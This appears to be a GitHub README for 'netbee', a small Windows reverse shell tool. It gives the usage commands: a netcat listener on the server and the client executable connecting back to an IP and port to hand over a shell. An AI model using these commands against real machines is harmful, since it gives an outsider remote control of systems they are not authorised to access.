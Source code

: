 # netbee
[![MIT License](https://img.shields.io/badge/License-MIT-green.svg)](../LICENSE.md)
[![Windows Vista+](https://img.shields.io/badge/Windows-Vista%20|%207%20|%208%20|%2010%20|%2011%20-007bb8.svg?logo=Windows)](#)

## Introduction
A compact reverse shell for Windows.

Example usage (server): `nc -nlvp <port>`

Example usage (client): `netbee.exe <ip> <port>`

![Usage example](usage.png)
